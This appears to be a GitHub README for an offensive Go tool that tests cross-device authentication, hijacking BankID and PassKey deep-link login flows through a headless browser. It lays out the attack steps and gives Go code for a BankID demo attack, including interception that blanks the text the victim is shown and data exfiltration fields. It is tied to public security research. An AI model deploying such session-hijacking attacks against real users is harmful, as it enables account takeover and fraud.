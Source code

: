 # Cross Device Authentication Tesing Tool

This tool was created to be able to easily test flaws in different cross device authentication protocols. Services relying on qr-codes and deep-links to authenticate remote or local browser sessions using their own mobile app are becoming increasingly popular, but testing their security can be quite difficult.

This tool relies on a headless browser to test for a simple attack that allows an attacker to start an authentication order against a service, extract or generate a deep link which will trick the victim's application to authenticate the remote session all on the fly as the victim is visiting our web server.

## Usage

Currently only one attack is available for use, slowly as other vulnerabilities get disclosed publicly more will be added. 


This tool requires:
- `go >= 1.21.6` 
- `chromium` or `google-chrome` and the respective headless driver
- `imagemagick` for attacks against PassKey QR codes

After installing those dependencies the tool can be run with `go run .`.

## Attacks available

Some attacks related to public research are available to play around with:

- Testing Swedish BankID configurations, related to the research that can be found [here](https://mastersplinter.work/research/bankid)
- PassKey CTAP man-in-the-middle `FIDO:/` as deep-links, related to the research that can be found [here](https://mastersplinter.work/research/passkey)

## Attack steps

1. The victim visits the exposed web server hosted on port 8080 (victim can also be taken directly to step 2)
2. The victim clicks on the path hosting the attack
3. The headless browser goes to the target service and starts an authentication order
4. The deep-link is extracted/generated from the authentication order
5. The victim is redirected to the deep-link
    - Via server redirection straight to the deep link
    - To a secondary page that triggers the deep link with js and then navigates to the legitimate service website
6. After the victim authenticates on the service's mobile app our headless browser session will instead be authenticated

## Creating a new attack

While the tool might move towards configuration files to set these up, currently they are defined directly in the Golang code.

### Attack Type

An attack type is defined for each different IdP you are targeting, while the attack itself might differ service to service, the attack type is supposed to the define general parameters for the "family" of attacks:

```go
var BankIDAttack AttackType = AttackType{
	Name:      "bankid",
	Regex:     `(bankid:\/\/\/)?\?autostarttoken=[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{12}&redirect=\w+`,
	Prefix:    "bankid:///",
	ReturnArg: "redirect",
}
```

- `Name`: Name for this type of attack
- `Regex`: Regex for the deep-link to be extracted
- `Prefix`: Prefix for the deep-link
- `ReturnArg`: Some IdPs like to redirect back to a webpage after auth using a parameter, set the name of such parameter if you want to try and hijack such a flow to find an open redirect

All of these parameters except `Name` are optional.

### Attack 

After defining your attack type you will now be able to use it to define an attack:

```go
type Attack struct {
	Url                 string                                                          // Main Url to visit
	RedirectURL         string                                                          // URL to redirect victim to (for higher impact)
	Actions             []chromedp.Action                                               // Actions of the headless browser
	CustomExtraction    func(string, string) string                                     // Custom action to extract the deep link
	RequestInterception func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams // Action to modify request to get deep link
	Path                string                                                          // Path to host attack on
	Fixed               bool                                                            // Attack is fixed
	Type                AttackType                                                      // Type of attack
	CustomBrowserFlags  []chromedp.ExecAllocatorOption                                  // Custom flags to pass to the headless browser
	ExfiltrationSteps   []chromedp.Action                                               // Headless browsers steps to be taken to exfiltrate data (not required)
	ExfilArea           string                                                          // XPath for text to extract out of the page after exfiltration steps
}
```

Here is an example:

```go
{
    Url:  "https://www.bankid.com/demo",
    Path: "/bankid-demo",
    Actions: []chromedp.Action{
        chromedp.Sleep(1 * time.Second),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
    },
    RedirectURL: "https://www.bankid.com/demo",
    Type:        BankIDAttack,
    ExfilArea:   `/html/body/div/div[2]/div[1]/div[1]/div/div[2]/div[2]/div[1]`,
    // Removing the test markdown text
    RequestInterception: func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams {
        var fetchRequest *fetch.ContinueRequestParams
        if strings.Contains(ev.Request.URL, "/demo/api/authentication") {
            r, _ := base64.StdEncoding.DecodeString((ev.Request.PostDataEntries[0].Bytes))
            re := regexp.MustCompile(`"userVisibleData":"[^"]*"`)
            noDeviceData := re.ReplaceAllString(string(r), `"userVisibleData":""`)
            fetchRequest = fetch.ContinueRequest(ev.RequestID).WithPostData(base64.StdEncoding.EncodeToString([]byte(noDeviceData)))
        } else {
            fetchRequest = fetch.ContinueRequest(ev.RequestID)
        }
        return fetchRequest
    },
},
```

As shown the tool heavily relies on the `chromedp`, I recommend reading up on their docs and their examples to see the full extent of its capabilities [here](https://github.com/chromedp/chromedp).

Hopefully as more attacks get released here they will be sufficient to draw inspiration from.

### Running your new attack

Now that your attacks are defined, head over the `main.go` to change the default attack list and you should be able to see your brand you attacks when visiting `localhost:8000`

## Contributing

I know right now the tool is a bit rough around the edges, if more people find it valuable and would like a better interface with the tool (CLI and config options) I will definitely consider building it.

If you feel like that is something you would like to do feel free to shoot over a PR and I will be happy to merge it if it improves the usability and/or performance of the tool.

### TODO

- Dockerized solution including all dependencies like the headless browser
- Configuration based system that allows attack definition via JSON

### Adding more attacks

I will be adding more I promise, however if you have some cool ones you would like to contribute please feel free to open a PR.

## Disclaimer

Feel free to use this tool however you like, of course I do not encourage nor take any responsibility for any illegal behavior done with this tool.